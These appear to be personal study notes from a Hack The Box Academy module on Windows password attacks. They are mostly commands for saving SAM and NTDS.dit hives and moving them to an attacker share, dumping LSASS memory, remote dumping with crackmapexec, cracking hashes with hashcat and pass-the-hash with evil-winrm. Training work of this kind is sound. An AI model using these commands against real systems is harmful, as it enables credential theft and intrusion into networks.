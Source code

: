 ## HTB-ACADEMY (Passsword attacks / Windows)
## Ivan Medina
---

### Windows Local Password Attacks

##### **SAM Registry Hives**

| Registry Hive   |      Description      |
|----------|:-------------:|
| hklm\sam |	Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext.|
| hklm\system |	Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.|
| hklm\security |	Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.|

##### **Using reg.exe save to Copy Registry Hives**

- ```reg.exe save hklm\sam C:\sam.save```
- ```reg.exe save hklm\system C:\system.save```
- ```reg.exe save hklm\security C:\security.save```

##### **Creating a Share with smbserver.py**

```sudo python3 impacket-smbserver.py -smb2support CompData /home/user/Documents/```

##### **Move hives**

- ```move sam.save \\<ip>\CompData```
- ```move security.save \\<ip>\CompData```
- ```move system.save \\<ip>\CompData```


##### **Dumping Hashes with Impacket's secretsdump.py**

- ```python3 impacket-secretsdump.py -sam sam.save -security security.save -system system.save LOCAL```

##### **Cracking Hashes with Hashcat**

- ```sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt```

### Remote Dumping & LSA Secrets Considerations

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

##### **Dumping LSA Secrets Remotely**

```crackmapexec smb <ip> --local-auth -u <user> -p <password> --lsa```

##### **Dumping SAM Remotely**

```crackmapexec smb <ip> --local-auth -u <user> -p <password> --sam```

### Attacking LSASS

LSASS is a critical service that plays a central role in credential management and the authentication processes in all Windows operating systems.

Upon initial logon, LSASS will:

- Cache credentials locally in memory
- Create access tokens
- Enforce security policies
- Write to Windows security log

##### **Dumping LSASS Process Memory**

##### *Task Manager Method*

With access to an interactive graphical session with the target, we can use task manager to create a memory dump.

```Open Task Manager > Select the Processes tab > Find & right click the Local Security Authority Process > Select Create dump file```

And is created in ... ```C:\Users\<user>\AppData\Local\Temp```

##### *Rundll32.exe & Comsvcs.dll Method*

```tasklist /svc```

##### *Finding LSASS PID in PowerShell*

```Get-Process lsass```

Once we have the PID assigned to the LSASS process, we can create the dump file

##### *Creating lsass.dmp using PowerShell*

```rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full```

##### **Using Pypykatz to Extract Credentials**

The command initiates the use of pypykatz to parse the secrets hidden in the LSASS process memory dump

```pypykatz lsa minidump /home/peter/Documents/lsass.dmp```

##### *MSV*

>"MSV is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database. Pypykatz extracted the SID, Username, Domain, and even the NT & SHA1 password hashes associated with the bob user account's logon session stored in LSASS process memory"

##### *WDIGEST*

"WDIGEST is an older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012. LSASS caches credentials used by WDIGEST in clear-text."

##### *Kerberos*

>"Kerberos is a network authentication protocol used by Active Directory in Windows Domain environments. Domain user accounts are granted tickets upon authentication with Active Directory. This ticket is used to allow the user to access shared resources on the network that they have been granted access to without needing to type their credentials each time."

##### *DPAPI*

>"The Data Protection Application Programming Interface or DPAPI is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications."

Is used by: Internet Explorer, Google Chrome, Outlook, RDP, Credential Manager.

##### **Cracking the NT Hash with Hashcat**

```sudo hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt```

### Attacking Active Directory & NTDS.dit

##### **Dictionary Attacks against AD accounts using CrackMapExec**

##### *Creating a Custom list of Usernames*

```./username-anarchy -i /home/path/names.txt```

##### *Launching the Attack with CrackMapExec*

```crackmapexec smb <ip> -u <user> -p <wordlist>```

##### **Capturing NTDS.dit**

>"NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot$/ntds on the domain controllers in a forest. The .dit stands for directory information tree".

##### *Connecting to a DC with Evil-WinRM*

```evil-winrm -i <ip>  -u <user> -p <password>```

##### *Checking Local Group Membership*

```net localgroup```

##### *Checking User Account Privileges including Domain*

```net user bwilliamson```

##### *Creating Shadow Copy of C:*

```vssadmin CREATE SHADOW /For=C:```

##### *Copying NTDS.dit from the VSS*

```cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit```

##### *Transferring NTDS.dit to Attack Host*

```cmd.exe /c move C:\NTDS\NTDS.dit \\<ip>\<shared_folder>```

##### *A Faster Method: Using cme to Capture NTDS.dit*

```crackmapexec smb <ip> -u <user> -p <password> --ntds```

##### **Cracking Hashes & Gaining Credentials**


##### *Cracking a Single Hash with Hashcat*

```sudo hashcat -m 1000 <hash> <dict>```

##### *Pass-the-Hash*

```evil-winrm -i <ip>  -u  <user> -H "<hash>"```
